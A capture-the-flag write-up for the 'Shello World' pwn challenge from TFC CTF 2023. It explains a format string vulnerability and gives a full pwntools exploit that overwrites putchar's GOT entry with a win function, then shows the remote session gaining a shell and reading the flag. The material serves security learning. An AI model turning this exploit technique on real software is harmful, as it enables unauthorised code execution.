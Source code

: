 ```yaml
---
title: TheFewChosen CTF 2023 - Shello World
date: Sun Jul 30 02:16:36 AM +04 2023
categories: [Writeup]
tags: [ctf,tfcctf,tfcctf2023,pwn,string_format]
---
```


## Description

By `tomadimitrie`

Greetings, traveler

Downloads: [shello-world](https://drive.google.com/file/d/1RgtCUXAhcxKZVxU4c4-qQtqSj0IpiSYa/view?usp=sharing)

## Solution

Basic file checks:
```bash
└─$ file ./shello-world
./shello-world: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa4c6aefb0f95c567829d1cde4be082c92c490a9, for GNU/Linux 3.2.0, not stripped

└─$ checksec ./shello-world
[*] '/home/kali/Desktop/TFC-CTF-2023/SHELLO-WORLD/shello-world'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled         # No Shellcode This Time
    PIE:      No PIE (0x400000)
```      

Vuln function (from Ghidra) :

```c
void vuln(void) {
  ... 
  <unused local varaibles>
  ...
  fgets((char *)&local_108,0x100,stdin); // User Input
  printf("Hello, ");
  printf((char *)&local_108);            // Echo Input
  putchar(10);                           // Put Newline
  return;
}
```

The attack vector is to use [Format String Vulnerability](https://ir0nstone.gitbook.io/notes/types/stack/format-string). The approach I ended up using was to overwrite address in GOT (Global Offset Table) with different address to reach   `win` function.

I was struggling to make the payload work, ended up watching full tutorial for pwntools from [pwncollege](https://youtu.be/dX7kguNt20M) D:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

exe = './shello-world'
elf = context.binary = ELF(exe)
context.log_level = 'INFO' # 'DEBUG'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process([exe] + argv, *a, **kw)


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def find_offset(payload):
    p = process(exe)
    p.sendline(payload)
    resp = p.recvall()
    p.close()
    return resp

def get_shell(payload):
    io.sendline(payload)

io = start()

# Pwntools lets us find Format String Vulnaribility offset
# You need to tell it what to do, so it can find the offset
# Offset can differ from program to program
# Example manual payload: AAAABBBB%OFFSET$p
fmtstr = FmtStr(execute_fmt=find_offset)

# With this payload we need to get shell
# "win" function executes system call and `find_offset` will crash due to EOF
fmtstr = FmtStr(execute_fmt=get_shell, offset=fmtstr.offset)
# Overwrite `putchar` with `win` function
fmtstr.write(elf.got.putchar, elf.functions.win)
# Send payload 
fmtstr.execute_writes()

# Get shell
io.interactive()
```

```bash
└─$ py solve.py REMOTE challs.tfcctf.com 31637 
[+] Opening connection to challs.tfcctf.com on port 31637: Done
...
[*] Found format string offset: 6 
[*] Switching to interactive mode
Hello,                                                                                                                      \xc0                                                                                                                                                          \x00                                              7aaaid
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls # Above command is `id`. Hard to see because of payload size
flag.txt
shello-world
$ cat flag.txt
TFCCTF{ab45ed10bb240fe11c5552d3db6776f708c650253755e706268b45f3aae6d925}       
```

> Flag: TFCCTF{ab45ed10bb240fe11c5552d3db6776f708c650253755e706268b45f3aae6d925}      
{: .prompt-tip }

> For some reason overwriting `printf` wasn't working...
{: .prompt-info }